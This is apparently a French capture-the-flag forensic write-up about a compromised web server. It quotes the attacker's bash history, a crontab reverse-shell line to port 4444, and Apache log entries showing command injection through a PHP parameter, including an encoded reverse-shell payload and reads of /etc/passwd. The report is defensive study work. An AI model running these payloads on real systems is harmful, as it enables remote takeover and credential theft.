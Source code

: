 ﻿


# Rapport d'analyse Forensique


## Préparation
Dans le cadre de cette analyse, l'opération s'effectuera via un Docker Linux prévu à cet effet ainsi qu'avec les identifiants transmis au préalable.


## Introduction
Suite à une attaque informatique qui aurait ciblé le site web de B0sh-cyber, cela aurait permis d'infiltrer des outils malveillants sur la machine. Le site Web a donc été mis en quarantaine et est inaccessible pour le moment. Une analyse complète de l'environnement sera effectuée pour identifier les actions effectuées par le hacker et ainsi prendre des mesures de sécurité en conséquence.


## Méthodologie
La méthodologie suivante sera adoptée:
 - Analyse des logs
 - Récupération de l'historique de commandes
 - Analyse Crontab
 - Identification des indicateurs de compromission

## Résultats
Dans un 1er temps, j'ai procédé à la récupération de l'historique de commandes afin de déterminer ce qui a pu se passer:

        b0sch@bosch-cyber:/$ history
        1  id
        2  cat /etc/passwd
        3  cat /etc/hosts
        4  ls /var/www/html
        5  pwd
        6  cd /home/b0sch/
        7  ping 138.66.89.12
        8  cat /etc/shadow
        9  l
       10  ls -lah
       11  crontab -e
       12  zip -r --password $(cat /tmp/mypassword) bosch_cyber_tools.zip /home/b0sch/bosch_cyber_tools
       13  mkdir /opt/leak
       14  mv bosch_cyber_tools.zip /opt/leak
       15  rm /tmp/mypassword

Je constate que l'attaquant a essayé de consulter des mots de passe, il les a peut-être potentiellement dérobés, c'est un 1er indicateur de compromission. L'attaquant a également ping un hôte, on peut imaginer qu'il s'agit de sa machine pirate.  

En utilisant la Crontab, une tâche planifiée a très certainement été mise en place, je vais donc aller vérifier:
   

     b0sch@bosch-cyber:~$ cat /etc/crontab
        */1 * * * * /bin/bash -c '/bin/bash -i >& /dev/tcp/138.66.89.12/4444 0>&1'

Cette commande ouvre une connexion TCP sur l'adresse IP 138.66.89.12 sur le port 4444 toutes les minutes.

Il s'agit d'une backdoor permettant à l'attaquant d'exécuter du code arbitraire à distance. Nous savons maintenant comment le pirate procède.

Un fichier zip protégé par un mot de passe a été déployé et déplacé dans un fichier leak. Je vais maintenant procéder à l'analyse des logs lié à Apache2, car c'est le serveur Web qui a été piraté. On retrouve 2 principaux fichiers de logs prévus à cet usage:

    b0sch@bosch-cyber:/var/log/apache2$ ls
    access.log  error.log  other_vhosts_access.log

 Il est nécessaire de s'orienter vers l'adresse IP distante identifiée auparavant afin de pouvoir obtenir de plus amples informations:
 

    b0sch@bosch-cyber:/var/log/apache2$ cat access.log | grep "138.66.89.12"
    138.66.89.12 - - [03/Sep/2022:13:41:12 +0200] "GET /bosch.php HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:41:24 +0200] "GET /bosch.php?name=bosch_report.pdf HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:41:42 +0200] "GET /bosch.php?name=;id HTTP/1.1" 200 59 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:41:51 +0200] "GET /bosch.php?name=;pwd HTTP/1.1" 200 52 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:42:11 +0200] "GET /bosch.php?name=;whoami HTTP/1.1" 200 40 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:42:15 +0200] "GET /bosch.php?name=;cat%20/etc/issue HTTP/1.1" 200 58 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:42:21 +0200] "GET /bosch.php?name=;cat%20/etc/passwd HTTP/1.1" 200 593 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:42:56 +0200] "GET /bosch.php?name=;ls%20/home/b0sch HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:43:02 +0200] "GET /bosch.php?name=;ls%20/home/b0sch/bosch_cyber_tools HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:43:31 +0200] "GET /bosch.php?name=;echo%20%22th3_4v1l_p4sSw0rD%22%20%3E%20/tmp/mypassword HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"
    138.66.89.12 - - [03/Sep/2022:13:43:57 +0200] "GET /bosch.php?name=;bash%20-i%20%3E&%20/dev/tcp/138.66.89.12/4444%200%3E&1 HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"

On constate qu'une multitude de requêtes ont été opérées par l'attaquant, on va cependant s'attarder sur celle-ci, car on retrouve en avant-dernière ligne un mot de passe utilisé par l'attaquant "**th3_4v1l_p4sSw0rD**" lié au mot de passe du fichier "/tmp/mypasswd".

    138.66.89.12 - - [03/Sep/2022:13:43:31 +0200] "GET /bosch.php?name=;echo%20%22th3_4v1l_p4sSw0rD%22%20%3E%20/tmp/mypassword HTTP/1.1" 200 31 "-" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:104.0) Gecko/20100101 Firefox/104.0"

Nous allons maintenant nous diriger dans l'endroit ou se trouve le fichier ZIP et essayer de dézipper le fichier de l'attaquant afin d'analyser son contenu avec le mot de passe trouvé dans les logs:
   
 

    b0sch@bosch-cyber:/opt/leak$ ls
    bosch_cyber_tools.zip
    b0sch@bosch-cyber:/opt/leak$ unzip bosch_cyber_tools.zip -d /home/b0sch/
    Archive:  bosch_cyber_tools.zip
    [bosch_cyber_tools.zip] bosch_cyber_tools/all_tools.txt password:
      inflating: /home/b0sch/bosch_cyber_tools/all_tools.txt

Le mot de passe a bien fonctionné, nous avons pu dézipper le fichier dans un emplacement ou nous avons les droits d'écriture.

Je vais maintenant procéder à l'ouverture du fichier pirate:
   

     b0sch@bosch-cyber:~/bosch_cyber_tools$ cat all_tools.txt
        GG :)
        FORENSIC{l0gS_4nalYs1s}
      
        PS: did you notice the persistence way of the attacker?

On retrouve ici la boîte à outils du hacker.




## Conclusion
Après analyse, nous avons découvert que l'attaquant s'introduisait sur le système via une backdoor par le biais d'un job sur une crontab s'effectuant toutes les minutes. L'attaquant possédait une boîte à outils en local sur le serveur protégé par un mot de passe.


# Recommandations
Pour corriger cette faille de sécurité, il est nécessaire d'adopter une stratégie de filtrage adéquate respectant le principe du moindre privilège. Le serveur WEB doit être sécurisé en HTTPS. La tâche planifiée doit être supprimée afin que le pirate ne puisse plus prendre la main à distance sur le serveur. Le mot de passe de tous les comptes doivent être changés et soumis à une politique de mots de passe fiable. 

## Conclusion Générale
Pour conclure, le site web de Bosh-Cyber a été soumis à une attaque informatique de type BackDoor permettant à l'attaquant d'éxécuter du code arbitraire à distance et ainsi avoir la main totale sur le serveur web.

